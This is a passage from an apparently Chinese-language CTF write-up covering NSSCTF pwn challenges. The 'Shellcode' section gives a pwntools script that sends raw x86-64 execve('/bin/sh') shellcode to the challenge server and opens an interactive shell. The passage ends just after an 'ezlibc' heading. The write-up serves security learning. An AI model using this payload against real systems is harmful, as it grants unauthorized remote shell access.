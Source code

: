 ## Shellcode

checksec

![](./images/image-119.png)

直接把shellcode发过去就行了

```
from pwn import *
context(os="linux",arch='amd64',log_level='debug')
io=remote('node4.anna.nssctf.cn', 28409)

payload=b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"
io.sendline(payload)
io.interactive()
```

![](./images/image-120.png)

## ezlibc

找了好久找到一篇讲ret2libc相对清晰的文章
